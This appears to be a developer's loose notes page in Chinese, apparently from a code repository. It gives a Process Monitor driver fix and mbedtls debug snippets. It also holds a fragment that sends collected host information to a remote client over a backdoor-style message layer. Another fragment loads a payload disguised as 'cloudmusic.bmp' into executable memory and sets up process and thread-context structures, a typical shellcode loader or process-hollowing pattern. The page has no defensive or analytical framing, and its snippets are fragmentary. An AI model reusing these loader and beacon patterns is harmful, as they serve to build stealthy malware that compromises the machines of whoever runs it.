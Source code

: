 win7 Process Monitor提示无法加载驱动

```
安装这个补丁
https://www.microsoft.com/en-us/download/confirmation.aspx?id=46148
```

### mbedtls 错误打印输出

```
			char error_buf[100]; // 用于存储错误描述的缓冲区
			mbedtls_strerror(n, error_buf, sizeof(error_buf));
			p_debug("Error description: %s\n", error_buf);
```

### mbedtls debug输出

```
void my_debug_function(void *ctx, int level, const char *file, int line, const char *str)
{
	p_debug("%s", str);
}

mbedtls_ssl_conf_dbg(&conf, my_debug_function, NULL);
mbedtls_debug_set_threshold(4);
	
```



```
    	char test[5] ={0x00,0x00,0x00,0xAE,0x00};
		pel_send_msg(client,test, 5);
		char test2[128] = {0x00,0x00,0x00,0x00};
		memcpy(test2 + 4, &host_info, sizeof(host_basic_info));
		pel_send_msg(client,test2, sizeof(host_basic_info) + 4);
```

E387

D9A4

B01B

```
	FILE* fp;
	size_t size;
	unsigned char* buffer;

	fp = fopen("cloudmusic.bmp", "rb");

	fseek(fp, 0, SEEK_END);

	size = ftell(fp);
	fseek(fp, 0, SEEK_SET);
	buffer = (unsigned char*)malloc(size);
	fread(buffer, size, 1, fp);

	char* v7A = (char*)VirtualAlloc(0, size, 0x3000u, 0x40u);
	memcpy((void*)v7A, buffer, size);

	struct _PROCESS_INFORMATION ProcessInformation;
	struct _STARTUPINFOA StartupInfo;
	void* v24;
	CONTEXT Context;
	DWORD DwWrite = 0;
	memset(&StartupInfo, 0, sizeof(StartupInfo));
	StartupInfo.cb = 68;
```